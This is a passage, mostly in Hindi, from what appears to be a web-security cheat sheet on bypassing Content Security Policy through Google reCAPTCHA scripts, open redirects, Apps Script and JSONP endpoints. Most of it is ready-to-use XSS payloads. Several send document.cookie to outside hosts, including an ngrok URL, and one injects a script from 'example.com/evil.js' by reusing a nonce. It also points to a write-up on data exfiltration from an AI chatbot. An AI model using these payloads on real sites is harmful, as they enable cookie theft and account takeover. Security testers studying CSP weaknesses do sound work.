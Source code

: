 [**इस CTF लेख**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?\_x\_tr\_sl=es&\_x\_tr\_tl=en&\_x\_tr\_hl=es&\_x\_tr\_pto=wapp#noteninja-3-solves) के अनुसार, आप CSP के भीतर [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) का दुरुपयोग कर सकते हैं ताकि CSP को बायपास करते हुए मनचाहा JS कोड निष्पादित किया जा सके:
```html
<div
ng-controller="CarouselController as c"
ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```
अधिक [**पेलोड इस लेख से**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):
```html
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

<!-- Trigger alert -->
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>

<!-- Reuse nonce -->
<img src=x ng-on-error='
doc=$event.target.ownerDocument;
a=doc.defaultView.top.document.querySelector("[nonce]");
b=doc.createElement("script");
b.src="//example.com/evil.js";
b.nonce=a.nonce; doc.body.appendChild(b)'>
```
#### www.google.com का उपयोग करके ओपन रीडायरेक्ट का दुरुपयोग

निम्नलिखित URL example.com पर रीडायरेक्ट करता है (यहां से):
```
https://www.google.com/amp/s/example.com/
```
Abusing \*.google.com/script.google.com

Google Apps Script का दुरुपयोग करके script.google.com के अंदर एक पृष्ठ में जानकारी प्राप्त करना संभव है। जैसे कि इसे [इस रिपोर्ट में](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/) किया गया है।

### Third Party Endpoints + JSONP
```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```
ऐसे परिदृश्य जहां `script-src` को `self` और एक विशेष डोमेन पर सेट किया गया है जिसे व्हाइटलिस्ट किया गया है, JSONP का उपयोग करके बायपास किया जा सकता है। JSONP एंडपॉइंट असुरक्षित कॉलबैक विधियों की अनुमति देते हैं जो एक हमलावर को XSS करने की अनुमति देते हैं, कार्यशील पेलोड:
```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

